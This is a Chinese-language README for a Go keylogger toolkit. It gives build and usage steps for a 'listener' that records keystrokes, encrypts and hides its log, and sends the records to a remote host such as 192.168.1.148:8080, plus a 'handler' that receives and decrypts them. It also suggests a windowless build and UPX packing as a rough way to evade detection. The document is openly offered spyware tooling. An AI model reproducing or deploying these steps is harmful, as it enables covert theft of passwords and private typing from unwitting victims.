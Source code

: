 ### 一. 安装Go语言环境
下载对应版本，例如windows64位: go1.13.5.windows-amd64.msi，就单纯编译这程序的话，全部默认下一步就好
```
https://studygolang.com/dl # 官网被墙，可以使用这个
```
### 二. 安装upx(可选)
下载对应版本，例如windows64位: upx-3.95-win64.zip，是个二进制文件可执行文件免安装
```
https://github.com/upx/upx/releases/tag/v3.95
```

### 三. listener
键盘监听程序

#### 参数配置
##### 1. 编译后，以命令行参数的方式进行传入
```
$ keylistener.exe -h
    -E
       encode text (default false)
    -H
       hidden file (default false)
    -lh string
       listener host
    -o string
       output to file (default "c:\\sys\\key.txt")
```

参数：

* -E : 进行文本加密
* -H : 隐藏记录文件
* -lh: 远程接收主机地址
* -o: 本地暂存文件的路径

示例：
进行文本加密， 隐藏记录文件，并把记录发送到， 192.168.1.148:8080
```
$ keylistener.exe -E -H -lh 192.168.1.148:8080
```

##### 2. 设置默认参数，无需手动输入, 编译后直接启动程序可以使用
自行修改listener/main.go下面这几行代码代码

```
// 默认配置
const (
	defaultPath     = "c:\\sys\\key.txt"     // 默认文件保存路径
	defaultHost     = "192.168.252.130:8080" // 默认远程接收地址
	defaultIsEncode = true                   // 默认进行文本加密
	defaultIsHidden = true                   // 默认进行文件隐藏
)
```

#### 编译

##### 1. 进入程序目录
```
$ cd keyboard/listener
```

##### 2. 编译程序
```
$ go build -ldflags "-s -w -H windowsgui" -o keylistener.exe *.go
```

##### 3. 可选，使用upx压缩程序（据说能起到一定加壳作用）
```
$ upx -9 keylistener.exe
```

### 四. handler
记录接收的远程端，也可以用于解密加密过的键盘记录文件

##### 1. 进入程序目录
```
$ cd keyboard/handler
```

##### 2. 编译程序
```
$ go build -o keyhandler.exe *.go
```
> 如果想在windows下编译linux可执行程序，在命令行设置临时环境变量后，再进行编译
```
$ set GOARCH=386 # 64位->amd64, 32位-> 386
$ set GOOS=linux
$ go env # 查看是否生效
```

##### 3. 参数
```
  -D    decode text
  -df string
        decode file
  -o string
        output to file
  -p string
        port
```
* -D: 是否需要解密，如果发送端进行加密，可使用此参数进行解密
* -df: 解密文件，后面接文件路径
* -o: 输出文件路径
* -p: 服务端端口地址

示例：

1. 监听8080端口,并对记录进行解密
```
$ keyhandler.exe -D -p 0.0.0.0:8080
```

2. 解密加密文件
```
$ keyhandler.exe -df key.txt -o log.txt
```

